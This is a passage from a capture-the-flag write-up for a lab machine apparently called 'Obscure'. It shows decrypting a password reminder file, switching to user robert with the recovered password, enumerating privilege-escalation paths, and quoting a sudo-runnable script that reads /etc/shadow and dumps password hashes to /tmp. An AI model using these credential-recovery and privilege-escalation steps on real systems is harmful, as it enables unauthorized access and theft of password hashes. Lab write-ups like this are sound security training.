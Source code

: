 This looks like something outputted by a simple cipher. Maybe the repeating substring is the key...

```bash
$ python3 SuperSecureCrypt.py -i passwordreminder.txt -o password.txt -k "alexandrovich" -d
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file passwordreminder.txt...
Decrypting...
Writing to password.txt...

$ cat password.txt
SecThruObsFTW
```

Yep. 

```bash
www-data@obscure:/home/robert$ su robert
Password: # SecThruObsFTW
robert@obscure:~$ wc user.txt
 1  1 33 user.txt
```

### Root Privilege Escalation

Now let's get root. There's an interesting directory in `/home/robert`:

```bash
robert@obscure:~/BetterSSH$ ll
total 12
drwxr-xr-x 2 root   root   4096 Dec  2 09:47 ./
drwxr-xr-x 7 robert robert 4096 Dec  2 09:53 ../
-rwxr-xr-x 1 root   root   1805 Oct  5  2019 BetterSSH.py
```

First, let's move `LinEnum.sh` over, make it executable, and run it. We spot this interesting line in the output:

```bash
[+] We can sudo without supplying a password!
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

Let's take a look at that script.

```python
with open('/etc/shadow', 'r') as f:
    data = f.readlines()
data = [(p.split(":") if "$" in p else None) for p in data]
passwords = []
for x in data:
    if not x == None:
        passwords.append(x)

passwordFile = '\n'.join(['\n'.join(p) for p in passwords])
with open('/tmp/SSH/'+path, 'w') as f:
    f.write(passwordFile)
```
